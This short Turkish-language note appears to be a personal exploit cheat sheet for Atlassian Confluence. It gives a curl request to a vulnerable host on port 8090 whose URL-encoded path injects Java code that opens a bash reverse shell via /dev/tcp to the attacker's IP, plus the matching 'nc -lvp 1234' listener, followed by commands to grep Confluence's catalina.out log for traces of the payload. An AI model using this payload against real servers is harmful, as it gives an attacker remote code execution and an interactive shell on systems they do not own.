 # aybs

# curl -v  http://zafiyetli_ip:8090/%24%7Bnew%20javax.script.ScriptEngineManager%28%29.getEngineByName%28%22nashorn%22%29.eval%28%22new%20java.lang.ProcessBuilder%28%29.command%28%27bash%27%2C%27-c%27%2C%27bash%20-i%20%3E%26%20/dev/tcp/senin_ip/1234%200%3E%261%27%29.start%28%29%22%29%7D/

# arkada nc -lvp 1234

# shell attıktan sonra şuraya git
# /opt/atlassian/confluence/logs
# En son bu şekilde ara
# cat catalina.out | grep -i “eval%28%22new%20java.lang.ProcessBuilder%28%29.command%28%27bash%27%2C%27-c%27%2C%27bash%20”
# şöyle de doğrula
# head -n50 (50.satıra kadar al demek bu) catalina.out bunu dene
